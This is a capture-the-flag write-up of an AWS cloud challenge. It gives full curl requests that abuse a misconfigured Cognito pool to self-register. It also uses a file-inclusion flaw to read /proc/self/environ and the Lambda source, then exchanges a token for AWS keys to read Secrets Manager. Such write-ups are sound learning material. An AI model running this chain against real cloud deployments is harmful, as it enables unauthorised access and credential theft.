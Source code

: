 # Mode Incognito
Mode Incognito was a hard cloud challenge in the Nahamcon EU 2022 CTF where you had to exploit misconfigured AWS Cognito and an LFI to get AWS keys and read the flag from Secrets Manager. I made it a ways through this challenge but got stuck towards the end and wasn't able to complete it until after the CTF ended.

## Auth Bypass
The challenge starts with a login page.

![](img/site.png)

Viewing the source reveals that the app uses Amazon Cognito to authenticate users and get a bearer token. It then uses the user's token to call a Lambda function with a path to a config file.

![](img/view-source.png)

After doing some research on attacks against Cognito I came across the following article which explains an attack against a misconfigured Cognito login. The article described a situation like the challenge where there was a login page but no option on the site to signup, however Cognito was misconfigured to allow accounts to be created directly with the AWS API utilizing the information exposed in the target websites source.
https://notsosecure.com/hacking-aws-cognito-misconfigurations

Following the steps outlined in the article I was able to register and verify a new user. I used the AWS REST API, but I think the AWS CLI would have also worked.

![](img/signup.png)

![](img/confirmation.png)

### Curl Commands
Signup
```
curl --request POST \
  --url https://cognito-idp.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'authority: cognito-idp.us-east-1.amazonaws.com' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'origin: https://ctfincognito.s3.amazonaws.com' \
  --header 'referer: https://ctfincognito.s3.amazonaws.com/' \
  --header 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"' \
  --header 'sec-ch-ua-mobile: ?0' \
  --header 'sec-ch-ua-platform: "Windows"' \
  --header 'sec-fetch-dest: empty' \
  --header 'sec-fetch-mode: cors' \
  --header 'sec-fetch-site: cross-site' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityProviderService.SignUp' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"ClientId":"11rcg1djsb6ka6ni21aml29kue","Username":"example@example.email","Password":"**********","UserAttributes":[{"Name":"email","Value":"example@example.email"},{"Name":"name","Value":"0mgfriday"}]}'
```
Confirm New User
```
curl --request POST \
  --url https://cognito-idp.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'authority: cognito-idp.us-east-1.amazonaws.com' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'origin: https://ctfincognito.s3.amazonaws.com' \
  --header 'referer: https://ctfincognito.s3.amazonaws.com/' \
  --header 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"' \
  --header 'sec-ch-ua-mobile: ?0' \
  --header 'sec-ch-ua-platform: "Windows"' \
  --header 'sec-fetch-dest: empty' \
  --header 'sec-fetch-mode: cors' \
  --header 'sec-fetch-site: cross-site' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityProviderService.ConfirmSignUp' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"ClientId":"11rcg1djsb6ka6ni21aml29kue","Username":"example@example.email","ConfirmationCode":"787453"}'
```

Now I was able to login to the challenge site with my newly created user and retrieve the Cognito config which simply contained the ARN of a Lambda.

![](img/lambda_config.png)

## Getting Stuck
My inital thought was this was the ARN of a different Lambda that I had to invoke to get the flag but in order to invoke it I needed AWS keys. I wanted to try using my Cognito login to get keys using [GetCredentialsForIdentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html) but it required the IdentityId of my user which I didn't have. I found a [GetId](https://docs.aws.amazon.com/cli/latest/reference/cognito-identity/get-id.html) API call that would give me my IdentityId but it required the Cognito IdentityPoolId which I also didn't have. I found an IdentityPoolId in a javascript file used by the challenge site but using it just returned errors saying the pool didn't exist so I think it was just an example id.

The next thing I looked at was the call from the site to `lambda_function` which took a config parameter which looked like a file path. I discovered this could be used to read arbitrary files and used it to dump the Lambda's environment variables by reading `/proc/self/environ`.
![](img/lambda_env.png)
The environment variables exposed the AWS creds for the Lambda (Access Key, Secret Key, and Session Token) as well as the task root.

I tried using the creds from the environment variables to do things in AWS CLI but it became apparent that the creds had no permissions and were useless.

## Getting the Flag
After being stuck for while I got a tip to try reading the Lambda functions source code. From the `AWS_EXECUTION_ENV` environment variable I could see that the Lambda was written in python and I guessed the code would be in the task root found in the environment variable `LAMBDA_TASK_ROOT`. I looked up the AWS documentation for deploying a Python Lambda and the filename used in their example command was `lambda_function.py` so I gave that a try. It worked and I got the source code.
![](img/lambda_source.png)

Lo and behold in the code was the IdentityPoolId I needed to get AWS keys for my Cognito user. There was also code to retrieve a secret from Secrets Manager which seemed to be the flag. Using the pool id I was able to call `GetId` to get my user's IdentityId and then use that to call `GetCredentialsForIdentity` and get AWS keys for my user. The `Logins` key cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL is the provider name which can can be found in your Cognito JWT in the issuer field.
![](img/identity_id.png)
![](img/get_credentials.png)

### Curl Commands
GetId
```
curl --request POST \
  --url https://cognito-identity.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'authority: cognito-identity.us-east-1.amazonaws.com' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'origin: https://ctfincognito.s3.amazonaws.com' \
  --header 'referer: https://ctfincognito.s3.amazonaws.com/' \
  --header 'sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"' \
  --header 'sec-ch-ua-mobile: ?0' \
  --header 'sec-ch-ua-platform: "Windows"' \
  --header 'sec-fetch-dest: empty' \
  --header 'sec-fetch-mode: cors' \
  --header 'sec-fetch-site: cross-site' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityService.GetId' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"IdentityPoolId":"us-east-1:176cdd96-9db6-437f-9a56-124c2e9de439","Logins":{"cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL":"BEARER_TOKEN"}}'
```
GetCredentialsForIdentity
```
curl --request POST \
  --url https://cognito-identity.us-east-1.amazonaws.com/ \
  --header 'accept: */*' \
  --header 'accept-language: en-US,en;q=0.9' \
  --header 'content-type: application/x-amz-json-1.1' \
  --header 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36' \
  --header 'x-amz-content-sha256: dfbb3ffd1cb5446686f79d8d49f59f6d754249f37aff6d6e66e1626b93d9c09a' \
  --header 'x-amz-target: AWSCognitoIdentityService.GetCredentialsForIdentity' \
  --header 'x-amz-user-agent: aws-sdk-js/2.726.0 callback' \
  --data '{"Logins":{"cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL":"BEARER_TOKEN"},"IdentityId":"us-east-1:19043020-e100-0000-0000-000000000000"}'
```

After that I used my keys with the AWS CLI to read the flag from SecretsManager.
![](img/flag.png)
